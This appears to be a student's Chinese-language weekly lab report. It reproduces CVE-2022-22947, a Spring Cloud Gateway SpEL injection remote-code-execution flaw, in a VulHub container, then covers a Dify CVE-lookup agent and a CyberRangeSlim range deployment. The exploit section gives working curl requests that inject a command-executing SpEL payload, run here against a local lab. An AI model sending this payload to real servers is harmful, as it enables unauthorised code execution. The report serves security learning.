


# 2025-11-13 组会周报

## 目标

* VulHub 复现一个简单漏洞

* Dify 搭建一个简单智能体

* 部署 CyberRangeSlim

* 学习智能化靶场构建与渗透测试

## 部署 VulHub 启动 CVE-2022-22947 环境（Spring Cloud Gateway RCE 漏洞）

```bash
# 克隆仓库
git clone --depth 1 https://github.com/vulhub/vulhub.git

# 进入漏洞目录
cd vulhub/spring/CVE-2022-22947

# 启动环境
docker compose up -d
```

访问漏洞应用 



CVE-2022-22947 是由于 Spring Cloud Gateway 存在 SpEL 表达式注入漏洞，可通过构造恶意请求触发。

```bash
# 添加恶意路由（创建/tmp/flag文件）
curl "http://172.21.129.98:8080/actuator/gateway/routes/exploit" -X POST \
  -H "Content-Type: application/json" \
  -d '{
    "id": "exploit",
    "uri": "http://example.com",
    "predicates": ["Path=/exploit"],
    "filters": [
      {
        "name": "AddResponseHeader",
        "args": {
          "name": "CMD",
          "value": "#{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/flag\")}"
        }
      }
    ]
  }'

# 刷新路由
curl "http://172.21.129.98:8080/actuator/gateway/refresh" -X POST

# 触发命令并查看文件是否存在
curl "http://172.21.129.98:8080/exploit"
docker exec $(docker ps -qf "name=spring") ls /tmp | grep flag
```

返回flag，说明命令执行成功


## Dify 快速入门搭建智能体——CVE查询助手

### 本地部署 

在docker中部署dify，通过`http://172.21.129.98/install`访问页面

### 搭建智能体——CVE查询助手

提示词

```bash
你是一个 CVE 漏洞查询助手，需遵循以下规则：
1. 当用户输入 CVE 编号（如 CVE-XXXX-XXXX），返回格式：
   - CVE 编号：XXX
   - 描述：XXX
   - CVSS 评分：XXX
   - 发布时间：XXX
   - 修复建议：XXX（基于常识补充）
   - 参考链接：XXX

2. 当用户输入关键词（如“Apache Struts”），返回相关 CVE 列表（按发布时间排序），每个条目包含编号、简要描述、评分。

3. 若查询无结果，回复“未找到相关 CVE 信息，请检查编号或关键词是否正确”。
```



## 部署 CyberRangeSlim

### 测试

`test.sh`验证了CyberRangeSlim环境中的网络连通性、跨子网通信能力以及通过网关对外网的访问能力。

1. 基本网络连通性测试 ：
   
   - 运行up.sh启动基础环境后，测试victim-1和victim-2的路由配置（ip r）
   - 测试victim-1是否能连接外部网络（ping www.cuc.edu.cn 和www.baidu.com）
   - 查看网关(gw)的日志信息
   - 测试victim-2是否能连接外部网络（ping ccs.cuc.edu.cn和www.qq.com）

2. 扩展网络环境测试 ：
   
   - 运行up-30.sh启动扩展环境后，测试三个子网（victim-net-1、victim-net-2、victim-net-3）的路由配置
   - 跨子网互通测试 ：测试不同子网之间的连通性（victim-net-1→victim-net-2，victim-net-2→victim-net-3，victim-net-3→victim-net-1）

3. 外部网络访问测试 ：
   
   - 获取attacker容器的IP地址
   - 测试victim-net-1能否ping通attacker（通过网关NAT）
   - 测试victim-net-2能否通过curl访问attacker
   - 测试victim-net-3到attacker的路由追踪（traceroute）

4. 网关日志监控 ：
   
   - 详细查看网关(gw)的日志输出，记录网络流量和连接情况

5. 环境清理 ：
   
   - 测试完成后运行down.sh清理环境

### docker-network-graph 子模块

* 解决 `pyenv install 3.9.14` 网络错误

```bash
mkdir -p ~/.pyenv/cache
mv ~/Downloads/Python-3.9.14.tar.xz ~/.pyenv/cache/
pyenv install 3.9.14
```

* 解决fdp命令无法识别#%06x颜色

修改`docker-net-graph.py`文件中的颜色格式化代码，将错误的混合使用方式更正为标准的str.format()方法

```bash
# c = "#%06x".format(random.randint(0, 0xFFFFFF))
c = "#{:06x}".format(random.randint(0, 0xFFFFFF))
```

* 启动项目后，生成并查看完整的网络拓扑

```bash
# 启动 CyberRangeSlim 项目
cd /home/husenyue/CyberRangeSlim-task-scale-victims-32-3nets_2025-11-06_1
bash up.sh

# 生成网络拓扑图
cd docker-network-graph
pipenv run python docker-net-graph.py | fdp -Tpng -o crs_network.png
```


* 在扩容受害者子网后，生成更新的网络拓扑图

```bash
# 扩容受害者子网
cd /home/husenyue/CyberRangeSlim-task-scale-victims-32-3nets_2025-11-06_1
docker compose --env-file crs.env up -d \
  --scale victim-net-1=10 \
  --scale victim-net-2=10 \
  --scale victim-net-3=10

# 生成扩容后的网络拓扑图
cd docker-network-graph
pipenv run python docker-net-graph.py | sfdp -Tpng -o expanded_network.png
```


```bash
# fdp：适用于中小型网络拓扑图，对于节点数较少的图效果好。
# sfdp：针对大型复杂网络优化，采用多层次技术处理大规模图形，能够更高效地处理大量节点。
```

## 学习智能化靶场搭建和渗透测试

* [基于AI的智能化渗透测试技术研究](https://blog.csdn.net/persist213/article/details/142489148)

* [xOffense：一个具有攻击性知识增强的LLM和多Agent系统的AI驱动自主渗透测试框架](https://blog.csdn.net/hao_wujing/article/details/151803139?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_baidulandingword~default-0-151803139-blog-144308414.235^v43^pc_blog_bottom_relevance_base5&spm=1001.2101.3001.4242.1&utm_relevant_index=2)
